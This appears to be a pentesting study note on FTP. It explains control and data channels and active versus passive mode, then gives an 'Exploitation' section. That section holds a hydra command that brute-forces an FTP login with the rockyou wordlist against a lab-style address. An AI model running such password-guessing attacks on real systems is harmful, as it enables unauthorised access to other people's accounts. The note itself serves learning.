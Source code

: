 # FTP
## File Transfer Protocol

Allows remote transfer of files over a network. Uses a client-server model.

Operates on two channels:
* a command/control channel
* a data channel

### Active vs Passive

* In an Active FTP connection,  the client opens a port and listens. The server is required to actively connect to it
* In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.

### Exploitation

```bash
ftp [ip]
```

```bash
get [file]
```

```bash
hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp
```

